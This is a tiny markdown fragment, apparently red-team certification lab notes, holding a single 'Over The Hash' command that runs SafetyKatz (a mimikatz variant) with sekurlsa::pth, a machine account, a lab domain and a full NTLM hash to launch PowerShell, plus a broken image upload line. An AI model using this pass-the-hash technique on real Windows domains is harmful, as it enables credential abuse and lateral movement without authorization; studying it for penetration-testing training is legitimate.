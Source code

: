 # CRTE Over The Hash command 
SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 
will be deleted in 24h
![Uploading S555555555555555555555555.png…]()
